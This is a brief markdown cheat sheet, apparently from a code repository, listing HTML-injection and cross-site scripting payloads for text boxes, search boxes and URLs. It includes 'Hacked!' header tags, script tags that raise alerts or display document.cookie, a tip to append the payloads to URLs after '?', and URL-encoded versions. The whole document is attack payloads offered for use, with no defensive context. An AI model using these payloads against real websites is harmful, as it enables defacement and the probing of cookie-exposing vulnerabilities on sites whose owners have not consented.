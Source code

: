 # HTML Payloads

## Text Box / Search Box 
`<h1>Hacked!</h1>`

`<h1 style="color:red;">Hacked!</h1>`

`<script>alert('XSS!')</script>.png`

`<script>alert(document.cookie)</script>`

## URL
 Add `?` infront of aby of the payload's listed in this doc

 ## HTML or URL Encoding
`%3Cscript%3Ealert%28%27XSS%27%29%3B%3C%2Fscript%3E`

`%3Cscript%3Ealert(document.cookie)%3C/script%3E`
